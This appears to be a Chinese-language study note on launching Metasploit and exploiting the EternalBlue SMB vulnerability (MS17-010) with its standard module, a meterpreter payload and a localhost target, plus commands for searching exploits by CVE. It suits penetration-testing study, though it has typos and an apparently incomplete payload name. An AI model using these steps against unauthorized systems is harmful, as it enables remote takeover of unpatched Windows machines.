


# metasploit

### 启动metasploit

1. 启动终端
   
   ```shell
   msfcosnole
   ```

2. ```shell
   sudo su
   ```

3. 初始化metaspolit数据库
   
   ```shell
   msfdb init
   ```

### 永恒之蓝漏洞

永恒之蓝工具利用SMB漏洞获取系统最高操作权限

### metasploit攻击永恒之蓝

1. 使用模块
   
   ```shell
   use exploit/windows/smb/ms17_010_eternalblue
   ```

2. 设置必选项
+ 查看必选项（*required为yes的就是必选项）
  
  ```shell
  show options
  ```

+ 查找漏洞
  
  ```shell
  search ms17_010
  ```
  
  
  
  其中exploit为攻击模块，auxiliary为辅助模块（检测漏洞是否存在）

+ 使用模块
  
  ```shell
  # use+编号或漏洞全称
  use 0
  use exploit/windows/smb/ms17_010_eternalblue
  ```

+ 设置必选项
  
  
  
  发现需要设置目标设备的IP地址
  
  
  
  在早期版本中需要设置payload
  
  ```shell
  set payload windows/x64/meterpreter
  ```
  
  设置目标设备的ip地址
  
  ```shell
  set RHOSTS 127.0.0.1
  ```

+ 运行
  
  ```shell
  run
  ```

+ 其他操作
  
  ```shell
  back # 返回主菜单
  exit # 退出msfconsole 
  search:linux # 查找linux漏洞
  search name:mysql type:exploit # 查找mysql漏洞类型是exp
  search cve:CVE-2017-8464 type:exploit # 查找cve可执行exp漏洞
  ```

+ 

